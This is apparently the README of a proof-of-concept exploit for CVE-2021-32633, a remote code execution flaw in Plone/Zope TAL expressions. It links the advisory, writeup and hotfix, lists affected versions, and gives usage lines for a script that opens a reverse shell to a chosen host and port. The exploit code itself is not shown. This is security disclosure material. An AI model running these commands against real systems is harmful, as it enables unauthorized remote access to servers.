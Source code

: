 # CVE-2021-32633 - Remote Code Execution via traversal in TAL expressions

Writeup: https://cyllective.com/blog/post/plone-authenticated-rce-cve-2021-32633/  
Advisory: https://github.com/zopefoundation/Zope/security/advisories/GHSA-5pr9-v234-jw36  
Plone Hotfix: https://plone.org/security/hotfix/20210518  
Affected versions: `< 5.2, < 4.6`  
Patched versions: `5.2, 4.6`  


## Usage

This PoC will spawn a reverse shell back to `-H`:`-P`.

```
usage: poc.py [-h] -t TARGET -u USERNAME -p PASSWORD -H HOST -P PORT

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
  -u USERNAME, --username USERNAME
  -p PASSWORD, --password PASSWORD
  -H HOST, --host HOST
  -P PORT, --port PORT
```


```
python3 poc.py -t '<target host>/<plone site name>' -u username -p password -H <src host> -P <src port>

python3 poc.py -t http://127.0.0.1/Plone -u username -p password -H 10.0.0.1 -P 9999
```
